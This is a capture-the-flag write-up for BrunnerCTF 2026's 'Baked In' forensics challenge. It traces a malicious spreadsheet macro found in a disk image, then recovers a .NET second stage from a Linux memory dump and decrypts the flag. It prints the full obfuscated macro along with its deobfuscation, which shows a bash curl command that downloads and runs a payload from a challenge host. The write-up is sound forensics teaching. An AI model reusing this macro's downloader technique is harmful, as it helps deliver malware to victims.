








# BrunnerCTF 2026 - Baked In
Author: atlas

This writeup is for BrunnerCTF 2026, which ran from 21/08/2026 14:00 CEST to 23/08/2026 14:00 CEST with almost 3,000 players and 1,500 teams participating, much like last year. We play for the CTF team [Jutlandia](https://jutlandia.club), based in Aalborg, Denmark. Our team consists of players from diverse backgrounds, ranging from students to people who work in IT every day. This challenge was a joint effort between c3lphie and me.

We placed 5th on the Danish leaderboard, which was the leaderboard eligible for prizes during the competition. It also came with a strict "no AI" rule: to stay eligible for the prizes, worth over 200,000 DKK in combined retail value, you could not use AI tools during the competition at all.

The writeup is therefore also a look at how to solve a challenge when you aren't allowed to use AI in any of its forms, including the annoying Gemini summaries in Google searches.

This writeup is our contribution to the "writeup" challenge, which runs after the competition closes. To be clear: we are allowed to use AI for this part, to fix grammar and readability.

# Final Scoreboard:

**🥇  1ST PLACE: 0-Day Aarhus - 27,897 pts**
- 🔸  SagaLabs 1st-place prize package
- 　↳  SagaLabs hoodies
- 　↳  One 3,000 DKK Proshop gift card
- 　↳  One case of Monster Energy
- 🔸  LEGO® McLaren P1™
- 🔸  LEGO® Gold Minifigure Key Chains
- 🔸  Campfire Security Unlimited Access - 1 year
- 🔸  BrunnerCTF 2026 mugs
- 🔸  BrunnerCTF 2026 T-shirts

**🥈  2ND PLACE: Fawsstudio - 24,700 pts**
- 🔹  LEGO® Dinosaur Fossils: Tyrannosaurus rex
- 🔹  LEGO® Silver Minifigure Key Chains
- 🔹  Campfire Security Unlimited Access - 1 year
- 🔹  BrunnerCTF 2026 mugs
- 🔹  BrunnerCTF 2026 T-shirts

**🥉  3RD PLACE: DTUHAX - 24,034 pts**
- 🔹  LEGO® Hubble Space Telescope
- 🔹  LEGO® Lady Liberty Key Chains
- 🔹  Campfire Security Unlimited Access - 1 year
- 🔹  BrunnerCTF 2026 mugs
- 🔹  BrunnerCTF 2026 T-shirts

**🏅  4TH PLACE: Team MARK - 23,894 pts**
- 🔹  LEGO® Dinosaur Fossils: Triceratops
- 🔹  LEGO® Hot Dog Guy Key Chains
- 🔹  Campfire Security Unlimited Access - 1 year
- 🔹  BrunnerCTF 2026 mugs
- 🔹  BrunnerCTF 2026 T-shirts

**🏅  5TH PLACE: Jutlandia - 16,310 pts**
- 🔹  LEGO® Leonardo da Vinci's Flying Machine
- 🔹  LEGO® French Bull Dog Guy Key Chains
- 🔹  Campfire Security Unlimited Access - 1 year
- 🔹  BrunnerCTF 2026 mugs
- 🔹  BrunnerCTF 2026 T-shirts

<details>
<summary>**🎖️  6TH-10TH PLACE:**</summary>

- 6th: Bricked devices - 10,429 pts
- 7th: Valdyr - 9,623 pts
- 8th: DanskeSigmas - 9,250 pts
- 9th: Single Point of Failure - 7,771 pts
- 10th: edb_med_mivle - 7,692 pts

Each 6th-10th place team receives:

- 🔸  Campfire Security Unlimited Access - 1 year
- 🔸  LEGO® Red Brick Key Chains
- 🔸  BrunnerCTF 2026 mugs
- 🔸  BrunnerCTF 2026 T-shirts
</details>

## Description
```
Difficulty: Hard
Author: ha1fdan

A local baker entered a baking contest, but something about the 
aftermath didn't add up...
```
## Getting an overview of the challenge
The handout gives us two files: `disk.E01` and `mem.dump`. The `disk.E01` file is a forensic image of the drive, which you can mount in Autopsy to examine. The `mem.dump` file is a capture of the machine's memory at a given point in time, which you can examine "as-is" using Volatility3.

Autopsy is a little easier to get started with, and once the image is loaded, we can see that the challenge is based on a Linux system.

To begin with, I normally just look around a bit to see if anything interesting jumps out. Autopsy has built-in functionality that makes it easy to look for specific files of interest. For this challenge we have been told that a baker entered a baking contest, so the email messages are a natural place to start: *"Data Artifacts -> Email Messages -> Default -> Default"*. There we find a number of emails about a contest, some of them from `konkurrence@brunsviger-dyst.ctf`, where "konkurrence" is the Danish word for "contest". That looks like a good starting point for further investigation.



In the emails from that sender there is an attachment, `results-from-judges.ods`, which is a spreadsheet in an open format. The first step is to extract this file using Autopsy: just right-click it and extract it to your VM. It is always good practice to use a VM for this kind of challenge, since you never know beforehand whether a file you are about to open is malicious. When the spreadsheet is opened, it comes with a warning about a macro.



The content of the macro is this:

```text
Function a1(Optional ByVal v As Variant) As String
    Dim i As Long
    Dim s As String
    If IsMissing(v) Then
        a1 = ""
        Exit Function
    End If
    If IsArray(v) Then
        For i = LBound(v) To UBound(v)
            s = s & Chr(v(i))
        Next i
        a1 = s
        Exit Function
    End If
    If IsNull(v) Or IsEmpty(v) Then
        a1 = ""
        Exit Function
    End If
    a1 = CStr(v)
End Function

Function b2(Optional ByVal v As Variant) As String
    Dim i As Long
    Dim s As String
    If IsMissing(v) Then
        b2 = ""
        Exit Function
    End If
    If IsNull(v) Or IsEmpty(v) Then
        b2 = ""
        Exit Function
    End If
    Dim sv As String
    sv = CStr(v)
    For i = Len(sv) To 1 Step -1
        s = s & Mid(sv, i, 1)
    Next i
    b2 = s
End Function

Function c3(Optional ByVal v As Variant) As String
    c3 = a1(v)
End Function

Function d4(Optional ByVal v As Variant) As String
    d4 = b2(v)
End Function

Function e5(Optional ByVal t As Variant) As String
    Dim i As Long
    Dim q As String
    If IsMissing(t) Or IsNull(t) Or IsEmpty(t) Then
        e5 = ""
        Exit Function
    End If
    Dim st As String
    st = CStr(t)
    For i = 1 To Len(st)
        q = q & Mid(st, i, 1)
    Next i
    e5 = q
End Function

Sub f6(Optional ByVal k As Variant)
    Dim i As Long
    Dim s As String
    If IsMissing(k) Or Not IsNumeric(k) Then k = 0
    For i = 0 To CLng(k)
        s = s & Chr((i Mod 7) + 48)
    Next i
    If Len(s) > 999999 Then MsgBox s
End Sub

Function g7(Optional ByVal a As Variant, Optional ByVal b As Variant) As String
    Dim w As String
    If IsMissing(a) Or Not IsNumeric(a) Then a = 0
    If IsMissing(b) Or Not IsNumeric(b) Then b = 0
    If CLng(a) > CLng(b) Then
        w = c3(Array(120, 120))
    ElseIf CLng(a) = CLng(b) Then
        w = c3(Array(121, 121))
    Else
        w = c3(Array(122, 122))
    End If
    g7 = w
End Function

Function h8(ByVal oProps As Object, ByVal k As Variant, ByVal nSpaces As Long) As String
    On Error GoTo h8_err
    Dim propName As String
    propName = c3(k)
    If Len(propName) = 0 Then
        h8 = ""
        Exit Function
    End If
    Dim tmp As Variant
    tmp = CallByName(oProps, propName, 2)
    If IsNull(tmp) Or IsEmpty(tmp) Then
        h8 = ""
    Else
        h8 = Split(CStr(tmp), String(nSpaces, Chr(32)))(1)
    End If
    Exit Function
h8_err:
    h8 = ""
End Function

Function i9(ByVal oSheet As Object) As String
    On Error GoTo i9_err
    Dim cellVal As Variant
    cellVal = oSheet.getCellByPosition(50, 146).getString()
    If IsNull(cellVal) Or IsEmpty(cellVal) Then
        i9 = ""
    Else
        i9 = d4(CStr(cellVal))
    End If
    Exit Function
i9_err:
    i9 = ""
End Function

Function j0() As String
    j0 = c3(Array(47, 116, 109, 112, 47, 46, 103, 110, 111, 109, 101, 45, 115, 99, 97, 99, 104, 101))
End Function

Function k1() As String
    k1 = c3(Array(47, 98, 105, 110, 47, 98, 97, 115, 104))
End Function

Function l2() As String
    l2 = Chr(45) & Chr(99) & Chr(32) & Chr(39)
End Function

Function m3(Optional ByVal targetPath As Variant, Optional ByVal sourceUrl As Variant) As String
    Dim tp As String
    Dim su As String
    If IsMissing(targetPath) Or IsNull(targetPath) Then
        tp = ""
    Else
        tp = CStr(targetPath)
    End If
    If IsMissing(sourceUrl) Or IsNull(sourceUrl) Then
        su = ""
    Else
        su = CStr(sourceUrl)
    End If
    m3 = l2() & d4(c3(Array(99, 117, 114, 108))) & Chr(32) & Chr(45) & Chr(115) & Chr(32) & Chr(45) & Chr(111) & Chr(32) & tp & Chr(32) & su & Chr(39)
End Function

Function n4(Optional ByVal targetPath As Variant, Optional ByVal payloadBlob As Variant) As String
    Dim tp As String
    Dim pb As String
    If IsMissing(targetPath) Or IsNull(targetPath) Then
        tp = ""
    Else
        tp = CStr(targetPath)
    End If
    If IsMissing(payloadBlob) Or IsNull(payloadBlob) Then
        pb = ""
    Else
        pb = CStr(payloadBlob)
    End If
    n4 = l2() & d4(c3(Array(99, 104, 109, 111, 100, 43, 120))) & Chr(32) & tp & Chr(32) & Chr(38) & Chr(38) & Chr(32) & tp & Chr(32) & pb & Chr(39)
End Function

Sub Main()

    Dim p1 As Object
    Dim p2 As Object
    Dim p3 As Object
    Dim p4 As String
    Dim p5 As String
    Dim p6 As String
    Dim p7 As String
    Dim p8 As String
    Dim p9 As String
    Dim q1 As String

    p1 = ThisComponent
    p2 = p1.getDocumentProperties()
    p3 = p1.Sheets.getByIndex(0)

    If False Then
        f6 12
        e5 ""
        g7 9, 4
    End If

    p4 = h8(p2, Array(84, 105, 116, 108, 101), 119)
    p5 = h8(p2, Array(83, 117, 98, 106, 101, 99, 116), 87)
    p6 = p4 & p5
    p7 = i9(p3)
    p8 = j0()
    p9 = k1()

    q1 = m3(p8, p7)

    If Len(p8) > 0 Then
        q1 = q1
    Else
        q1 = q1 & g7(1, 2)
    End If

    Shell p9, 1, q1, True
    Shell p9, 1, n4(p8, p6), True

End Sub
```

## Obfuscation

At first glance it looks suspicious, since it is obfuscated in several ways. Instead of writing characters directly, the macro encodes them as decimal values rather than readable text, so a list like `83 117 98 106 108 99 116 87` becomes `SubjectW`. From here on, you need to reverse engineer the macro to work out what it does.

Below is a snippet of the deobfuscated macro along with the information we gathered while working through it, which should make it a little easier to follow.

Since there was a strict no-AI rule for the whole competition, we only reversed as much as was necessary to get a good understanding of what was happening. I suspect this part of the challenge would have gone a lot faster with AI.


```text
DEOBFUSCATION:

j0 = c3(Array(47, 116, 109, 112, 47, 46, 103, 110, 111, 109, 101, 45, 115, 99, 97, 99, 104, 101))
j0 = /tmp/.gnome-scache

k1 = c3(Array(47, 98, 105, 110, 47, 98, 97, 115, 104))
k1 = /bin/bash

l2 = Chr(45) & Chr(99) & Chr(32) & Chr(39)
l2 = -c '

m3 = l2() & d4(c3(Array(99, 117, 114, 108))) & Chr(32) & Chr(45) & Chr(115) & Chr(32) & Chr(45) & Chr(111) & Chr(32) & tp & Chr(32) & su & Chr(39)
m3 = l2 & curl -s -o  '

n4 = l2() & d4(c3(Array(99, 104, 109, 111, 100, 43, 120))) & Chr(32) & tp & Chr(32) & Chr(38) & Chr(38) & Chr(32) & tp & Chr(32) & pb & Chr(39)
n4 = chmod+x  &&  '

p4 = h8(p2, Array(84, 105, 116, 108, 101), 119)
p4 = Titlew

p2 = p1.getDocumentProperties()
p3 = p1.Sheets.getByIndex(0)

p5 = h8(p2, Array(83, 117, 98, 106, 101, 99, 116), 87)
p5 = SubjectW

VARIOUS INFORMATION:

Title and Subject of the Document is: 
Brunner Bakery Contest - Results (...WHITE_SPACES...) iAOC5E/kZo090/MaLKq0F4TXhdQ77V1Q
Brunsviger-dyst 2026 - Dommernes point (...WHITE_SPACES...) BOxGVg/2t5eAuFlSKXjpFmjgIlOwLM0y

Function i9(ByVal oSheet As Object) As String
    On Error GoTo i9_err
    Dim cellVal As Variant
    cellVal = oSheet.getCellByPosition(50, 146).getString()
    If IsNull(cellVal) Or IsEmpty(cellVal) Then
        i9 = ""
    Else
        i9 = d4(CStr(cellVal))
    End If
    Exit Function

Value of the cell 50, 146 is "stluser/ftc.yr3kab-3ht//:ptth"

EXECUTION:

Shell p9, 1, q1, True = /bin/bash curl -s -o /tmp/.gnome-scache "http://th3-bak3ry.ctf/results"
Shell p9, 1, n4(p8, p6), True = /bin/bash chmod+x && /tmp/.gnome-scache iAOC5E/kZo090/MaLKq0F4TXhdQ77V1QBOxGVg/2t5eAuFlSKXjpFmjgIlOwLM0y

```
Please note that the notes above are my real notes from during the competition, so there may be some errors in them.

As you can see from the notes above, the macro also pulls hidden information from the spreadsheet itself, as well as from the document properties.

**Document properties**



**Hidden fields in the spreadsheet**



Now that we know the file downloaded a second-stage payload, the next step is to find it. It wasn't in `/tmp/`, which was the obvious place to look on the forensic image. We do have a memory dump of the machine, though, so it was reasonable to assume we could locate it there instead.

## Memory forensics & Volatility
Since we were given a Linux image, this part of the challenge gave me some trouble to begin with, because you can't run Volatility3 "off the shelf" on a Linux memory dump.

To read the dump, Volatility3 needs to know the memory layout, which differs between kernel versions. This was something I didn't know beforehand. I found a good guide on it, [Linux Memory Forensics: Generate & Import Kernel Symbols for Volatility 3](https://medium.com/@dfirloading/linux-memory-forensics-generate-import-kernel-symbols-dbgsym-vmlinux-for-volatility-3-230300f174f8), which was a tremendous help.

If you want the full details, go and read the Medium article, it was worth it. The short version is:

- Find the kernel version of the memory dump with `python3 vol.py -f /path/to/memory.dump linux.banners.Banners`
- Locate and download the matching kernel. For this challenge I used the following, and note that it is the debug version: [linux-image-6.12.94+deb13-amd64-dbg_6.12.94-1_amd64.deb](https://packages.debian.org/trixie/amd64/linux-image-6.12.94+deb13-amd64-dbg/download)
- Unpack the kernel package and pull out `vmlinux`
- Extract the DWARF info from `vmlinux` using `dwarf2json`
- Generate the ISF file and place it in the `symbols` folder of Volatility3
- Volatility3 now works on the memory dump

I ran the following commands to get it all working:

```bash
# Unpack the kernel
sudo apt-get update && sudo apt-get install -y dpkg xz-utils
cd ~/dbg
dpkg-deb -x \
  linux-image-6.12.94+deb13-amd64-dbg_6.12.94-1_amd64.deb \
  extracted
ls ~/dbg/extracted/usr/lib/debug/boot/vmlinux-6.12.94+deb13-amd64

# Build dwarf2json
sudo apt-get install -y golang git
cd ~
git clone https://github.com/volatilityfoundation/dwarf2json
cd ~/dwarf2json
go build -o dwarf2json
cd ~

# Generate the ISF file
~/dwarf2json/dwarf2json linux \
  --elf ~/dbg/extracted/usr/lib/debug/boot/vmlinux-6.12.94+deb13-amd64 \
  > ~/vmlinux-6.12.94+deb13-amd64.json
xz -9e ~/vmlinux-6.12.94+deb13-amd64.json

# Place the ISF file into Volatility3
mv ~/vmlinux-6.12.94+deb13-amd64.json.xz /home/kali/tools/vol/volatility3/volatility3/symbols
```

With all of that done, we are finally able to use Volatility3 to map out the memory dump and continue our journey for the flag.

First we ran `python3 vol.py -f ~/Downloads/forensics_baked-in/mem.dump linux.psscan.PsScan > psscan.txt` to list the processes, redirecting to a text file so we could search through it afterwards. Nothing useful turned up there, and the same was true for `linux.pstree.PsTree`. Finally we tried `linux.pagecache.Files`, which gave us something to work with:

```bash
0x8b9b4231a000  /tmp    0:34    846     0x8b9b42a40670  REG     16297   16297   -rwxrwxr-x      2026-07-31 20:29:46.000000 UTC  2026-07-31 20:29:46.000000 UTC  2026-07-31 20:29:46.000000 UTC  /tmp/.gnome-scache
```
The suspicious file was luckily still resident in memory, which meant we could extract it and take a closer look.

We used `linux.pagecache.RecoverFs` to pull the files out of the dump. This takes a while, so it was a perfect opportunity to touch grass.

Once the extraction finishes you are left with a lot of folders and files. You can either go through them one by one, or jump straight to the file with `find . -type f -name ".gnome-scache"`, which returns its location.

In the `/tmp/` folder we also find a picture of a delicious "brunsviger" with candy on top and a flag planted straight into it, which I would take as a sign we are getting closer. It is only missing whipped cream on the top, to be a truly world class brunsviger.

**Picture of a "brunsviger"**


Running `file` on the binary gives us this:

```bash
.gnome-scache: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=3174bf87a33dd0e7b9512f640e1d669e893d8cb4, stripped
```

"stripped" means the binary has had its symbols and debugging information removed, which is exactly the information that would have made reverse engineering easier.

c3lphie ran it through a reverse engineering tool, which turned up references to `*.dll` files and to Microsoft. Which was odd, since the ELF header tells us the binary was compiled for Linux.

You can reach the same conclusion with `strings .gnome-scache`, which shows a lot of the binary's clear text. After a bit of digging we concluded that the file was a .NET binary cross-compiled for Linux, which was a new one for me.



With the binary extracted, the next question was what it actually does, and the most direct way to find out is to run it. Remember that this should only be done inside a VM.

The first run didn't appear to do anything. We ran it again with `COREHOST_TRACE=1` to get more detail:

`COREHOST_TRACE=1 ./.gnome-scache iAOC5E/kZo090/MaLKq0F4TXhdQ77V1QBOxGVg/2t5eAuFlSKXjpFmjgIlOwLM0y`



## Reversing the .gnome-cache
Reverse engineering the `.gnome-scache` binary was a challenge in itself, since much of it was obfuscated by being stripped.

The DLL of interest was `gnome-cache-helper.dll`, which looks custom-made for this binary. We extracted it using [DotNetBundleExtractor](https://github.com/tomrus88/DotNetBundleExtractor), an older project on GitHub, but one that still does the job.

With the DLL open in [dnSpyEx](https://github.com/dnspyex), a debugger and .NET assembly editor, we could see we were close to the end goal. dnSpyEx decompiles the `.dll` back into readable code, which is far easier than picking apart the stripped ELF binary by hand. An AI agent hooked up to Ghidra over MCP might have sped things up here too, though by this point we already knew the DLL was the part we cared about. The manual `strings` pass got us there just as fast, so the end result would likely have been the same either way.



As the screenshot shows, the DLL contains a hardcoded AES key, `Br0nn3rB4k3ryK3y`, and an IV (initialisation vector) of `CTF2026BrunnerIV`. That gives us everything we need to decrypt the argument that came from the spreadsheet: `iAOC5E/kZo090/MaLKq0F4TXhdQ77V1QBOxGVg/2t5eAuFlSKXjpFmjgIlOwLM0y`.

Paste it all into CyberChef and there it is:



Flag: `brunner{h1dd3n_ingr3d13nts_1n_th3_r3c1p3}`

## What I learned from this challenge

- AI would have sped up the macro reversing considerably. Doing it by hand does force you to think harder about what the malicious code actually does and how the pieces tie together.
- Old projects on GitHub still have plenty of value.
- Doing memory forensics on a Linux dump teaches you a fair bit about how the underlying system works.
- Apparently you can run .NET on Linux ¯\\\_(ツ)\_/¯
- It is fun to take on a challenging CTF without AI. The flags feel a lot more rewarding at the end.